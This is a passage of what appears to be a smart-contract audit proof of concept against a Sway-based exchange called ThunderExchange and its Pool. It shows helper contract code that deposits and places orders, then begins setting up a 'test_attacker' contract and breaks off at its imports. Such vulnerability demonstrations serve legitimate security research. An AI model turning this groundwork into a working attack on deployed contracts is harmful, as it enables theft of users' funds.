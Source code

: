 ```rs
        storage.exchange.write(Option::Some(exchange));
        storage.pool.write(Option::Some(pool));
        storage.strategy.write(Option::Some(strategy));
    }

    #[storage(read)]
    fn place_buy_order(asset: AssetId, amount: u64, order: MakerOrderInput) {
        // let strategy = storage.strategy.read().unwrap();
        let exchange_addr = storage.exchange.read().unwrap().bits();
        let exchange = abi(ThunderExchange, exchange_addr);
        let pool_addr = storage.pool.read().unwrap().bits();
        let pool = abi(Pool, pool_addr);

        // deposit to pool and create order
        pool.deposit{ asset_id: asset.bits(), coins: amount }();
        exchange.place_order(order);
        // pool.withdraw(asset, amount);
    }

    #[storage(read)]
    fn place_sell_order(order: MakerOrderInput) {
        let exchange_addr = storage.exchange.read().unwrap().bits();
        let exchange = abi(ThunderExchange, exchange_addr);

        exchange.place_order{ asset_id: AssetId::new(order.collection, order.token_id).bits(), coins: order.amount }(order); // user places an innocent order
    }
}
```

#### test\_attacker folder

In the `test_attacker` folder.

* Add the below in the `forc.toml`:

```rs
[project]
authors = ["Blockian"]
entry = "main.sw"
license = "Apache-2.0"
name = "test_attacker"

[dependencies]
interfaces = { path = "../interfaces" }
libraries = { path = "../libraries" }
standards = { git = "https://github.com/FuelLabs/sway-standards", tag = "v0.4.4" }
```

* Add the below in the `main.sw`:

```rs
contract;

use std::{
    address::Address,
    auth::*,
    call_frames::*,
    constants::*,
    context::*,
    contract_id::ContractId,
    hash::Hash,
    logging::log,
    identity::Identity,
    revert::*,
    asset::*,
```